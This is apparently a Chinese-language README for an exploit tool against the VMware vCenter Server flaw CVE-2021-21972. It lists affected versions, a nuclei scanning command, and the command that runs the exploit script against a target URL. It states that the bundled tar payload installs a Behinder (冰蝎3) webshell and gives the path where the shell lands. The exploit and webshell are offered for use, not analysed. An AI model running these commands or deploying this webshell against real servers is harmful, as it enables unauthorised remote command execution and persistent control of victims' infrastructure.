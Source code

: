 ## 漏洞概述

攻击者可通过访问web管理端向vCenter Server发送请求从而在操作系统上执行任意命令或者上传一个webshell到vcenter服务器的任意位置执行.

## 漏洞影响

```http
VMware vCenter Server 7.0系列 < 7.0.U1c
VMware vCenter Server 6.7系列 < 6.7.U3l
VMware vCenter Server 6.5系列 < 6.5 U3n
VMware ESXi 7.0系列 < ESXi70U1c-17325551
VMware ESXi 6.7系列 < ESXi670-202102401-SG
VMware ESXi 6.5系列 < ESXi650-202102101-SG
```

## POC

```bash
nuclei -tags vmware -t cves/ -l urls.txt
```

## EXP

```bash
python CVE-2021-21972.py -url https://192.168.2.1
```

`payload`文件夹内的`tar`文件为默认冰蝎3 webshell

```http
https://domain.com/ui/resources/shell.jsp
```

